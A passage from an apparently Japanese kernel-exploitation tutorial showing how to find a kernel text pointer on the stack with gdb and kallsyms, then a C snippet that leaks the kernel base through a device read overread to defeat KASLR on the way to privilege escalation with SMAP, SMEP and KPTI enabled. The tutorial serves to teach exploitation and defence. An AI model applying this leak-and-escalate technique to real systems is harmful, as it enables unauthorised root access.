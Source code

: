 まずはスタック上にKASLRのベースアドレスを特定できるアドレスが存在するかをgdbで確認します。基本的に、デバッグ中はKASLRを無効にしておきましょう。

<center>
  <img src="img/kaslr_overread.png" alt="copy_to_user呼び出し時のスタック" style="width:560px;">
</center>

0xffffffff81000000付近を指しているアドレスを探すと、上の図で0xffffc9000041beb0と0xffffc9000041bef0にそれぞれ0xffffffff8113d33cと0xffffffff8113d6e3が存在します。このアドレスが何かをkallsymsから調べましょう。ちょうどこのアドレスに合うシンボルは見つからないので、リターンアドレスなど関数の途中を指すポインタであると推測できます。下位数ビットを除外してgrepしてみると、次のようにいくつかヒットします。

<center>
  <img src="img/kaslr_lookup.png" alt="アドレスからシンボルの調査" style="width:480px;">
</center>

`vfs_read`や`ksys_read`関数の途中を指しているようです。いずれにせよFGKASLRは無効ですので、カーネルのベースアドレスからこのポインタまでのオフセットは固定です。今回は最初の`vfs_read`を指しているポインタを利用します。
```c
  /* Leak kernel base */
  memset(buf, 'B', 0x480);
  read(fd, buf, 0x410);
  unsigned long addr_vfs_read = *(unsigned long*)&buf[0x408];
  unsigned long kbase = addr_vfs_read - (0xffffffff8113d33c-0xffffffff81000000);
  printf("[+] kbase = 0x%016lx\n", kbase);
```
これでSMAP,SMEP,KPTI,KASLRすべて有効でも動作するexploitが書けます。ROP gadgetや各種関数に、リークしたカーネルのベースアドレスを使うように修正してみてください。次のようにKASLR有効でも権限昇格できれば成功です。

<center>
  <img src="img/kaslr_bypass.png" alt="KASLR有効下での権限昇格" style="width:320px;">
</center>
